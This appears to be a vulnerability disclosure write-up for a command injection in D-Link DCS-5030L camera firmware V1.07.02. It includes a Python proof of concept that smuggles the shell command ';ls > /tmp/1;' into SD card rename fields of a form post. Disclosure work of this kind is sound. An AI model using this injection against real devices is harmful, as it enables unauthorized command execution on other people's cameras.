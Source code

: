 # command injection

## D-LINK DCS-5030L

version: V1.07.02

## Description:

There is a command injection in alphapd/sub_425120

## Source:

you may download it from : [legacyfiles.us.dlink.com - /DCS-5030L/REVA/FIRMWARE/](http://legacyfiles.us.dlink.com/DCS-5030L/REVA/FIRMWARE/)

## Analyse:

![](11.png)

If ConfigSDCard equal Rename, call sdcardsetRename.

![](12.png)

we can execute aribitrary command via parameter v3 and parameter v4.

## POC

```
url = "http://192.168.1.13/setManageSDCardManage"
headers = {
    'Host': '192.168.1.13',
    'Authorization': 'Basic base64(admin:password)',
    'Connection': 'close',
    'Content-Type': 'application/x-www-form-urlencoded'
}
data = {
    'ReplySuccessPage':'advanced.htm',
    'ReplyErrorPage':'errradv.htm',
    'SDCardNewFileName':';ls > /tmp/1;',
    'SDCardSelectedFile':';ls > /tmp/1;',
    'ConfigSDCard':'Rename'
}
r = requests.post(url, data=data,headers=headers)
```
